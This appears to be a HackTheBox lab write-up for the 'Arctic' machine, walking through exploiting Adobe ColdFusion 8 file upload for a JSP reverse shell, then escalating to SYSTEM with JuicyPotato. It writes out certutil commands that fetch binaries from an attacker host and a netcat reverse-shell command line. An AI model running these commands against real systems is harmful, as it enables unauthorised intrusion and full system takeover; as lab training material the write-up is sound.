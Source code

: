 # Arctic [HTB](https://app.hackthebox.com/machines/Arctic)
![arctic-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/arctic-01.png)


## recon 

Lets add an entry to `/etc/hosts` for this box: 

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/hosts-02.png)


Now we can start enumerating with nmap:

`nmap -sC -sV -A -p- acrtic.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/nmap-res-03.png)

We have the following:

+ An RPC endpoint mapper on port 135, and another RPC related port on 49154.
+ A JRun HTTP server on port 8500.


Lets go check the site. 


### HTTP 8500


If we open our browser and navigate towards `http://arctic.htb:8500`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/site-04.png)

We can see we have two folders. If go into the first folder, we can see an `adminstrator` folder:

![admin-folder-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-folder-05.png)

Which leads to an admin portal:

![admin-portal-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-portal-06.png)

We can see this tech is Adobe ColdFusion 8. 

ColdFusion Markup Language is an interpreted language utilizing a Java backend. It allows direct 
access to Java via its cfscript tags, while simultaneously offering a simple web wrapper. 
It is vulnerable to a variety of attacks, but mainly Local File Disclosure (LFD) and SQL injection. 

If we search ColdFusion 8 on google, we can quickly find a [public exploit](https://www.exploit-db.com/exploits/50057): 

![exploit-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/exploit-db-07.png)


Apperatnly there is an upload file feature on the application in:

`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`


The exploit generates a `java/jsp_shell_reverse_tcp` payload using `msfvenom`, and saves it to a file.
Then, it sends the file to the server in a specific form. Finally it navigates to the reverse shell's
location to execute it while setting up a listener. Lets try it out. 

After downloading it, make sure to update your lhost/rhost information in the exploit:

![edit-exploit-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/edit-exploit-08.png)

We should be good to go, lets execute with:

`python3 rce_exploit.py`

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/execute-09.png)


At the end you should get a shell:

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/shell-10.png)



## Privilege Escalation


Lets run `systeminfo` on our tagret:

![sysinfo-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/sysinfo-11.png)


We can see the target is a:

+ Windows 2008 R2 server standard.  
+ 6.1.7600 N/A Build 7600
+ X64 arhc 

After Following [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html) checklist for a bit, i found nothing meaningful. 

I also tried running [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) but without success.

So i decided to look at our user's privileges with `whoami  /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/privs-12.png)


Looks like we have `SeImpersonatePrivilege` enabled. We might be able to expoit this with a [potato attack](https://github.com/ohpe/juicy-potato). 

+ Download the exploit from [here](https://github.com/ohpe/juicy-potato/releases).

+ Host the exploit to the target by starting a python server with:

`python3 -m http.server 80`

+ Transfer the exploit to the target with:

`certutil -urlcache -f http://10.10.14.20/JuicyPotato.exe potato.exe`

+ Tranfer a copy of `/usr/share/windows-resources/binaries/nc.exe` to the target as well. 

`certutil -urlcache -f http://10.10.14.20/nc.exe nc.exe`

+ Set up the local listener: 

`nc -lnvp 9009`

+ Execute `potato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\tolis\nc.exe -e cmd.
exe 10.10.14.20 9009" -t *`

+ Get system: 

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/root-13.png)
